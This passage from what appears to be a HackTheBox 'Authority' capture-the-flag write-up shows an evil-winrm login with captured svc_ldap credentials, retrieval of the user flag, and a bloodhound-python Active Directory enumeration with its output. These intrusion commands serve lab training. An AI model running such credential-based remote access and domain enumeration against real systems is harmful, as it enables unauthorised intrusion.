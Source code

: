 
```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Authority]
└──╼ $evil-winrm -i 10.10.11.222 -u svc_ldap -p lDaP_1n_th3_cle4r!

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_ldap\Documents> ls
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> cd ..
*Evil-WinRM* PS C:\Users\svc_ldap> ls Desktop

    Directory: C:\Users\svc_ldap\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/29/2023  12:07 AM             34 user.txt

*Evil-WinRM* PS C:\Users\svc_ldap> cat Desktop/user.txt
46c083be115ff-------------------
```

<h2>bloodhound option</h2>

So I jumped the gun a little. In theory here you would use bloodhound to scour the AD domain for accounts and services and what their permissions were. Once we did that we would find svc_ldap does have login permissions to **authority.htb**.

The command to dump the information:

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Authority]
└──╼ $bloodhound-python --dns-tcp -ns 10.10.11.222 -u svc_ldap -p lDaP_1n_th3_cle4r! -d AUTHORITY.htb -c all
INFO: Found AD domain: authority.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (authority.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: authority.authority.htb
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: authority.authority.htb
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Found 5 users
INFO: Found 52 groups
INFO: Found 3 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: authority.authority.htb
INFO: Done in 00M 13S
```
